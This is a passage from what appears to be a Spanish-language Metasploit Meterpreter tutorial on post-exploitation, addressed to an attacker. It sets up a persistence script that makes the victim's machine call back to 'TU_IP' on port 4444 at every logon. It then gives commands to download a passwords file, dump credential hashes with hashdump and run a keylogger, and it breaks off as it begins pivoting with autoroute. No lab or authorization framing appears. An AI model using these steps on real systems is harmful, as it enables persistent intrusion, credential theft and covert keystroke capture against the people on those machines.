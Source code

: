 ✅ Explicación:

- `-U`: al inicio del usuario
- `-i 30`: cada 30 segundos intenta conectar
- `-p 4444`: puerto
- `-r TU_IP`: tu IP de atacante

✅ Resultado:

```
[*] Running Persistent Script as user: WIN-ABCD123\User
```

✔ Ahora la víctima se reconecta cada vez que inicie sesión.

---

✅ **Idea sencilla:**

> Ya no necesitas explotar de nuevo → la máquina te llama automáticamente.

---

#### ✅ PASO 4️⃣ Recolectar información

✅ Ver procesos:

```bash
ps
```

✅ Descargar archivos:

```bash
download C:\\Users\\User\\Desktop\\passwords.txt
```

✅ Leer credenciales en memoria:

```bash
hashdump
```

✅ Keylogger:

```bash
keyscan_start
```

✅ Para parar:

```bash
keyscan_stop
```

---

#### ✅ PASO 5️⃣ Pivoting

✅ ¿Qué pasa si la víctima está en red interna?

✅ Usas `autoroute` para pivotear:
